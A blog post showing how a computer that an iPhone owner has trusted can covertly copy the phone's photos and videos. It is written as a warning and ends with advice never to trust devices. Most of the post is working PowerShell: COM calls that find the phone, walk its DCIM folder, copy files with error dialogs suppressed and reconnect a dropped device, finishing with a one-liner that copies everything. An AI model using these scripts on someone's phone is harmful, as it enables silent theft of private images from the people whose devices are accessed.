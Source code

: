 ```yaml
---
title: "Do not trust this device"
author: i4
date: M08-05-2022
---
```



## Good evening neighboors

Plugging in your iPhone and trusting the device is almost always never a good idea.  
In this post I'd like to show you how a malicious machine/user can extract your images and videos from your phone without your knowledge.

![trust](/b/images/trust.jpg)

### tldr;
It's really insecure to allow the attached device access to your phone.  
Extracting images and videos from an iPhone isn't really hard.  
There are some technical difficulties but they are relatively simply be overcome.

### Tec stuff
Microsoft uses mtp (Media Transfer Protocol) to communicate with your phone. While the protocol itself isn't extremely complex it's 
not natively supported by a wide range of script languages (Powershell included).  
Powershell can use Windows classes which in turn have access to the underlying COMObjects.


### Checking if a phone is connected
We need to check if there's a phone connected and the user trusted the device (Happens all the time)  
I use this simple one liner to check it.

```
$i=((new-object -com Shell.Application).NameSpace(17).self).GetFolder.items() | Where {$_.name -eq "Apple iPhone"};$p=$i.GetFolder.items();$p.GetFolder
```

You'll receive the following output:  

```
Application  : System.__ComObject
Parent       : System.__ComObject
Name         : Internal Storage
Path         : ::{UUID}\\\?\usb#vid_05ac&pid_12a8&mi_00#6&21cec13f&0&0000#{UUID}
GetLink      :
GetFolder    : System.__ComObject
IsLink       : False
IsFolder     : True
IsFileSystem : False
IsBrowsable  : False
```

If there's no return value the user didn't trust the machine (Like he shouldn't have in the first place) or there isn't a phone attached and you're out of luck.

## The fun begins
Now for the heavy lifting we'll need to initialize the ComObject.
```
$shell = new-object -com Shell.Application
$shellItem = $shell.NameSpace(17).self
```
NameSpace 17 is just a fancy way to address the special folder "This PC".

![Namespace](/b/images/namespace_17.png)


Now we can get access the phone through it's Internal Storage.
```
$phone = $shellItem.GetFolder.items() | where { $_.name -eq "Apple iPhone" }
$rootFolder = $phone.GetFolder.items() | where { $_.Name -eq "Internal Storage" }
```

There aren't many directories accessable over mtp. So we can use the default Digital Camera Images folder.
```
$subfolder = $rootFolder.GetFolder.items() | where { $_.Name -eq "DCIM" }
```

Now you can manually search for interesting folder names and extract anything that you're interested in.

_Look manually into it_
```
$subfolder.GetFolder.items() | select Name
```

If you found a folder that you're interested in you can traverse down and load the files in an array.
```
$appleFolder = $subfolder.GetFolder.items() | where { $_.Name -eq "102APPLE" }
$items = @($appleFolder.GetFolder.items() | where {$_.Name -match "IMG_*"})
```

We've only selected images here but it's possible to select videos as well.
The last thing we need to do is copy them somewhere to extract them.  
We can't use Copy-File or other methods due the incompatibility with ComObjects.  
Luckily there's a .Net copy function.

```
$dst = $shellItem.GetFolder.items() | where { $_.name -eq "Pictures" }
$dst.GetFolder.CopyHere($items[1]), 1024)
```
1024 tells the device to not show a user interface on error.  
Please note that this is quite unstable and in almost all cases I've lost connection after 3-4 successful transfers.

So I've ended up copying the files in smaller chunks `($items[1...x])` instead of using a For loop.

If the connection drops, you'll need to reconnect the device like this. Which will only work with administrative rights though.

```
Get-PnpDevice | where {$_.Name -eq "Apple iPhone"} | Disable-PnpDevice | Enable-PnpDevice
```

Everything in a nice one liner:
```
$r=((new-object -com Shell.Application).NameSpace(17).self).GetFolder.items();$i=$r|where{$_.Name-eq"Apple iPhone"};$d=$i.GetFolder.items()|where{$_.name-eq"Pictures"};$f=$i.GetFolder.items()|where{$_.Name-eq"Internal Storage"};$rt=$f.GetFolder.items()|where{$_.Name-eq"DCIM"};$rt.GetFolder.items()|%{$_.GetFolder.items()|%{($r|where{$_.Path-like"*Pictures"}).GetFolder.CopyHere($_,1024)}}
```

This copies everything from the DCIM folder to `$env:USERPROFILE\Pictures`.

### Conclusion
If you trust your device, you trust everything that has access to your computer.  
Your phone has no idea if the connection comes from you or another user/service.  

Never allow a device to access your phone and if you really need to, unplug your phone after the transfer.
